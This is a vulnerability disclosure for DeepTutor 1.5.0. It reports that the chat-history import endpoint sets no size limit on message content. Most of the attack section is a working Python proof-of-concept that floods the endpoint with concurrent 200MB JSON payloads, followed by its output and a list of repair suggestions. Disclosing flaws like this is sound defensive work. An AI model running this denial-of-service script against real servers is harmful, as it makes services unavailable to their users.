


## DeepTutor has a denial of service vulnerability in the chat history import interface

## supplier

https://github.com/HKUDS/DeepTutor

## affected version

DeepTutor 1.5.0

Docker image:

```text
ghcr.io/hkuds/deeptutor:latest
sha256:2c968ae8f408405cd39406431423a4e89d7572d038c1be2aaebf6bdd7a2ced5d
```

## Vulnerability file

```text
deeptutor/api/routers/imports.py
```

## describe

DeepTutor has a denial of service vulnerability in the chat history import interface.

The vulnerable interface is:

```text
POST /api/v1/imports/chat-history
```

The `content` field in imported chat messages has no length restriction. Attackers can submit very large JSON payloads to this interface. When multiple oversized import requests are sent concurrently, the backend process becomes unstable and normal requests are interrupted.

## code analysis

The code only limits the number of sessions and messages:

```python
_MAX_SESSIONS_PER_REQUEST = 1000
_MAX_MESSAGES_PER_SESSION = 10000
```

However, the `content` field has no `max_length` restriction:

```python
class ImportedMessage(BaseModel):
    role: str = Field(..., pattern="^(user|assistant)$")
    content: str = ""
    created_at: float | None = None
    metadata: dict[str, Any] = Field(default_factory=dict)
```

The import function checks the number of sessions and messages, but it does not check the total request size or the length of each message content.

```python
@router.post("/chat-history")
async def import_chat_history(payload: ChatHistoryImportRequest) -> dict[str, Any]:
    if not payload.sessions:
        raise HTTPException(status_code=400, detail="No sessions to import")
    if len(payload.sessions) > _MAX_SESSIONS_PER_REQUEST:
        raise HTTPException(
            status_code=413,
            detail=f"Too many sessions in one request (max {_MAX_SESSIONS_PER_REQUEST})",
        )

    ...

    if len(messages) > _MAX_MESSAGES_PER_SESSION:
        messages = messages[:_MAX_MESSAGES_PER_SESSION]
```

Vulnerability point:



## POC

The following script sends oversized chat history import payloads concurrently:

```python
import concurrent.futures
import json
import sys
import time
import urllib.request

target = sys.argv[1].rstrip("/")
size = int(sys.argv[2]) if len(sys.argv) > 2 else 200 * 1024 * 1024
concurrency = int(sys.argv[3]) if len(sys.argv) > 3 else 12
requests = int(sys.argv[4]) if len(sys.argv) > 4 else 12

def send_import(i):
    payload = {
        "source": "codex",
        "sessions": [{
            "external_id": f"poc-{int(time.time())}-{i}",
            "title": "poc",
            "source_cwd": "",
            "created_at": time.time(),
            "updated_at": time.time(),
            "messages": [{
                "role": "user",
                "content": "A" * size,
                "created_at": time.time(),
                "metadata": {},
            }],
        }],
    }
    req = urllib.request.Request(
        target + "/api/v1/imports/chat-history",
        data=json.dumps(payload).encode(),
        method="POST",
        headers={"Content-Type": "application/json"},
    )
    try:
        urllib.request.urlopen(req, timeout=120).read()
        return 200
    except Exception as e:
        return type(e).__name__

with concurrent.futures.ThreadPoolExecutor(max_workers=concurrency) as pool:
    for idx, result in enumerate(pool.map(send_import, range(requests)), 1):
        print(idx, result)
```

Run:

```bash
python3 poc_import_dos.py http://target:8001 209715200 12 12
```

The `content` value in each message is about 200MB. During the attack, most import requests were interrupted by the server:

```text
import_pressure_start size=209715200 concurrency=12 max_requests=12

import drain completed=2 status=0 elapsed=18.15s detail=RemoteDisconnected('Remote end closed connection without response')
import drain completed=3 status=0 elapsed=18.22s detail=ConnectionAbortedError(10053, ...)
import drain completed=12 status=0 elapsed=21.82s detail=ConnectionAbortedError(10053, ...)

import_pressure_done submitted=12 completed=12 statuses={200: 1, 0: 11}
```

Reproduction screenshot:



## impact

Attackers can make the agent backend unstable or unavailable by sending oversized chat history import payloads.

## repair suggestion

1. Add a global request body size limit.
2. Add `max_length` to `ImportedMessage.content`.
3. Limit the total content size of each import request.
4. Return `413 Payload Too Large` for oversized imports.
5. Add rate limiting and per-user import quotas.
